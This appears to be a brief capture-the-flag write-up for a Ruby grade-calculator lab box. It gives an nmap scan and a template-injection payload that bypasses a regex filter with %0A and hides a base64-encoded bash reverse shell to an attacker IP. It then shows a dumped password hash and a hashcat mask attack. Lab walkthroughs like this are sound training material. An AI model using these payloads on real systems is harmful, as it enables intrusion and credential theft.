 #ssti

- Enumeration : 
```sh
nmap -sC -sV-p- $ip
```

- Output :
```sh
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Exploitation form ssti RCE / bypass regex filter : 
```ruby
ABCDE%0A<%25%3d+system("echo+L2Jpbi9iYXNoIC1sID4gL2Rldi90Y3AvMTAuMTAuMTQuNTMvNDI0MiAwPCYxIDI%2bJjE%3d+|+base64+-d+|+bash+")+%25> #payload
```

`"%0A" to bypass the filter and at the same type encode the payload in base64 to also bypass security .`

Interesting file : 
```sh
susan@perfection:~/Migration$ cat pupilpath_credentials.db
cat pupilpath_credentials.db
^ableusersusersCREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
a\
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023fsusan@perfection:~/Migration$ ^C
```

- Cracking the hash : 
```sh
hashcat -m 1400 hash  -a 3 "susan_nasus_?d?d?d?d?d?d?d?d?d"
```

`The structure of the password was in /var/mail`
